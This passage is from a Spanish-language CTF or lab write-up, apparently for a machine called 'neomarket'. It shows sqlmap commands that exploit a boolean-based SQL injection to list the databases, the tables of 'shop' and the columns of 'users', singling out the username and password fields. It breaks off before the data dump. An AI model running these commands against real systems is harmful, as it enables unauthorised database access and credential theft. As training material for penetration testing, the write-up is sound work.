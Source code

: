 En primer lugar, estaremos dumpeando la información de la base de datos de manera automatizada gracias a **SQLMap**.
##### Bases de datos

Guardaremos en un fichero la petición vulnerable a la **Inyección SQL basada en booleanos**, y a continuación usaremos el siguiente comando para sacar todas las bases de datos.

```bash
sqlmap -r req.req -p "id" --dbs --batch --level 5 --risk 3
```

Entre todas las bases de datos que nos reporta nos llamará la atención **shop**.

![](<../assets/images/posts/2025-03-19-neomarket/Pasted image 20250318142329.png>)
##### Tables de la base de datos shop

Mostraremos todas las tablas de la base de datos **shop** gracias al siguiente comando.

```bash
sqlmap -r req.req -p "id" -D shop --tables --batch --level 5 --risk 3
```

Nos llamará la atención la tabla **users**.

![](<../assets/images/posts/2025-03-19-neomarket/Pasted image 20250318142517.png>)
##### Columnas de la tabla users

Gracias a la siguiente instrucción mostraremos las columnas de la tabla **users**.

```bash
sqlmap -r req.req -p "id" -D shop -T users --columns --batch --level 5 --risk 3
```

Nos quedaremos con la columna **password** y **username**.

![](<../assets/images/posts/2025-03-19-neomarket/Pasted image 20250318143350.png>)
##### Información de la tabla users
